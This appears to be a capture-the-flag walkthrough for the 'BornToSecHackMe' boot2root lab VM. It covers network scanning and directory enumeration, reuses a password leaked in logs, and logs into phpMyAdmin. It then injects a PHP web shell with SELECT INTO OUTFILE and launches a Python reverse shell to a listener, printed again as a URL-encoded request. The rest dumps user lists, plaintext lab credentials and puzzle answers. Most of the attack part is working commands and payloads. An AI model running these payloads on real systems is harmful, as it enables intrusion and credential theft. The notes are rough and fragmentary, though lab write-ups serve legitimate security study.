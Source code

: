 ## nmap:
* scan the network :
```
┌──(kali㉿kali)-[~]
└─$ nmap --open -sV 10.11.100.0/24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-14 07:30 EST
Nmap scan report for 10.11.100.71
Host is up (0.00061s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## dirb :
```
gobuster  dir --url https://{IP} --wordlist /usr/share/wordlists/dirb/common.txt --no-tls-validation
```

* DIRB IS a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
![ alt text for screen readers](imgs/dirb_scanHTTP.png "dirb_scanHTTP")
![ alt text for screen readers](imgs/dirb_scanHTTPS.png "dirb_scanHTTP")

## 
from threats posted on the forum i found an intersting one "login problem"
reading the logs , a line says: 'Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2'
    - sounds like someone write a password in username field.
    - tried to connect using ssh users form forum and this password (didn't work)
    - tried to log in to forum with:
    ```
    username: lmezard
    password: !q\]Ej?*5K5cy*AJ
    ```
    - it works , i also got the email from the user profile
    email: laurie@borntosec.net

### The same password was used to log in to webmail
    user: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

+ on the inbox i there's a mail contain credential to a databases 
![ alt text for screen readers](imgs/db_access.png "db credentials")

## access phpMyAdmin

login: root

password: Fg-'kKXBj87E:aJ$

## inject a webshell in sql 
ressource: https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/pyload.php"



export RHOST="IP";export RPORT=3412;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

## GET a foothold on the machine 

open a port and start listening for incoming connection

nc -lk -p 3412

encode the pyload and pass it to cmd in : https://IP/forum/templates_c/pyload.php/?cmd=(encoded pyload)



## list users 
```
laurie@borntosec.net@BornToSecHackMe:~$ getent passwd {1000..60000}
getent passwd {1000..60000}
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
```

$ cat /home/LOOKATME/password
cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
$


laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
thor:Publicspeakingisveryeasy.126241207201b2149opekmq426135


https://10.11.100.68/forum/templates_c/pyload.php/?cmd=export%20RHOST%3D%2210.11.100.68%22%3Bexport%20RPORT%3D3412%3Bpython%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fsh%22%29%27

Public speaking is very easy.
1 2 6 24 120 720
1 b 214
9
opekmq
4 2 6 3 1 5